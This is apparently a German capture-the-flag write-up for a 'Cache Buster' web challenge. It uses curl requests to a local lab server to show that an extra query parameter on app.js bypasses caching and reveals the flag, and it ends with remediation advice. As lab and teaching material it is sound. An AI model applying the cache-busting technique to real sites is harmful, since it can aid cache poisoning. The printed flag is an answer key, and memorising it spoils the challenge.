



# web-dustbust

## Cache Buster Challenge

Auf der Seite _bankdirect Sicherheitsnews_ kann sich ein Kunde über Gefahren im Internet und Meldungen des Bürger-CERT [^1] informieren.



## Lösungsmöglichkeit
Die Herausforderung der Challenge besteht darin, herauszufinden, dass die Inhalte der JavaScript-Datei dynamisch sind, aber gecached werden. Es gilt zu ermitteln, wie der Cache umgangen werden kann. Der `Cache-Control`-Header [^2] gibt den Hinweis auf das Ablaufdatum.

Es können unterschiedliche Cache Poisioning [^3] oder Cache Busting [^4] Verfahren genutzt werden, um zum Ziel zu kommen.

```
$ curl -s -D - -o /dev/null "http://localhost"
HTTP/1.1 302 Found
Date: Tue, 19 Jul 2022 08:24:04 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Location: /index.php?c=31536000
Content-Length: 7997
Content-Type: text/html; charset=UTF-8
```
Wir folgen den Ressourcen und testen die dynamischen Scripts:
```
$ curl -s -D - -o /dev/null "http://localhost/index.php?c=31536000"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:23:20 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

Die einzig lokale Ressource die zusätzlich eingebunden wird und den Content liefert ist `app.js`.




Die Daten darin werden über PHP-dynamisch geladen:
```
$ curl -s -D - -o /dev/null "http://localhost/app.js?c=31536000"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:23:32 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Cache-Control: public, max-age=31536000
Cached: 1
Vary: Accept-Encoding
Content-Length: 5205
Content-Type: application/javascript
```

## Erfolgreicher Cache Buster
Die Flag kann erlangt werden, indem der Cache erfolgreich umgangen wird. Hierfür muss der `app.js` Datei mehr als einen `$_GET` Parameter übermittelt werden:

```
$ curl -s -D - -o /dev/null "http://localhost/app.js?c=31536000&v=1231231231312"
HTTP/1.1 200 OK
Date: Tue, 19 Jul 2022 08:24:43 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.30
Cache-Contr: Who do you call?
Cache-Control: DBH{CacheBusters2022}
Vary: Accept-Encoding
Content-Length: 5205
Content-Type: application/javascript
```



## Beseitigung der Schwachstelle
Diese Challenge hatte zum Ziel, dass Infrastrukturen und Deployments in Cloud-Umgebungen hinterfragt werden. Bei vielen Container-Umgebungen werden Application- oder Reverse Proxies eingesetzt, die eine Zwischenschicht zur Applikation darstellen. Caches sind unterschiedlich verwundbar oder injectbar. Das Problem des Aushebelns des Caches in dieser Aufgabe könnte behoben werden, indem serverseitig zwingend gespeichert wird und eine Umgehung des Caches nur bei validen Parametern erfolgt. Unbekannte Parameter sollten gefiltert oder ignoriert werden.

## Flag
```
DBH{CacheBusters2022}
```

## Footnotes
[^1]: vgl. https://www.buerger-cert.de/ \
[^2]: vgl. https://developer.mozilla.org/docs/Web/HTTP/Headers/Cache-Control \
[^3]: vgl. https://portswigger.net/web-security/web-cache-poisoning#identify-and-evaluate-unkeyed-inputs \
[^4]: vgl. https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws 

